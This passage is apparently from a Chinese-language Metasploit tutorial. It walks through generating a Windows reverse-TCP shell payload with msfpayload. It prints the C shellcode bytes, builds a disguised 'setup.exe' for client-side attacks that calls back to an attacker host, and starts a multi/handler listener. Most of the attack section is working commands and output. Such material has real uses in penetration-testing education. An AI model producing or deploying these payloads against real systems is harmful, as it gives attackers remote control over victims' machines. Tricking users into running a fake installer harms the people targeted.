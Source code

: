 注意命令行中的小`o`参数列出了 shellcode 有效载荷的各种参数选项。我们将不得不传递这些值，以生成我们自己使用的定制 shellcode。

```
root@bt:~# msfpayload windows/shell/reverse_tcp LHOST=192.168.56.101 LPORT=4441 o 
```

因此，我们已根据需要设置了`LHOST`和`LPORT`。下一步将是为我们定制的 shell 生成 C 代码（显示的输出已经被缩短以适应）。

```
root@bt:~# msfpayload windows/shell/reverse_tcp LHOST=192.168.56.101 LPORT=4441 C
/*
* windows/shell/reverse_tcp - 290 bytes (stage 1)
* http://www.metasploit.com
* VERBOSE=false, LHOST=192.168.56.101, LPORT=4441,
* ReverseConnectRetries=5, EXITFUNC=process,
* InitialAutoRunScript=, AutoRunScript=
*/
unsigned char buf[] =
"\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2"
"\xf0\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85"
"\xc0\x74\x4a\x01\xd0\x50\x8b\x48\x18\x8b\x58\x20\x01\xd3\xe3"
"\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31\xc0\xac\xc1\xcf\x0d"
"\x01\xc7\x38\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe2\x58"
"\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b"
"\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff"
"\xe0\x58\x5f\x5a\x8b\x12\xeb\x86\x5d\x68\x33\x32\x00\x00\x68"
"\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8\x90\x01" 
```

注意命令行中的大写`C`参数。您将注意到一个完整的 C 语言 shellcode，我们可以在自己的利用开发代码中使用。或者，我们也有选项可以生成 Ruby 和 Perl 语言的代码。

让我们继续进行下一步，生成一个用于客户端攻击的 shellcode 的二进制可执行文件。

```
root@bt:~# msfpayload windows/shell/reverse_tcp LHOST=192.168.56.101 X > .local/setup.exe
Created by msfpayload (http://www.metasploit.com).
Payload: windows/shell/reverse_tcp
Length: 290
Options: {"LHOST"=>"192.168.56.101"} 
```

注意我们在命令行中传递的各种参数。我们使用`X`参数生成了一个 exe 文件类型，并且该文件已经在名为`.local`的文件夹中生成，文件名为`setup.exe`。现在，这个生成的 exe 可以在我们的客户端攻击中使用。

## 工作原理...

现在我们的可执行文件已经准备好了，我们将不得不在 msfconsole 中设置一个监听器，以便在目标执行此 exe 文件时监听返回连接。

```
msf > use multi/handler
msf exploit(handler) > set payload windows/shell/reverse_tcp
payload => windows/shell/reverse_tcp
msf exploit(handler) > set LHOST 192.168.46.101
msf exploit(handler) > exploit
[-] Handler failed to bind to 192.168.46.101:4444
[*] Started reverse handler on 0.0.0.0:4444
[*] Starting the payload handler 
```

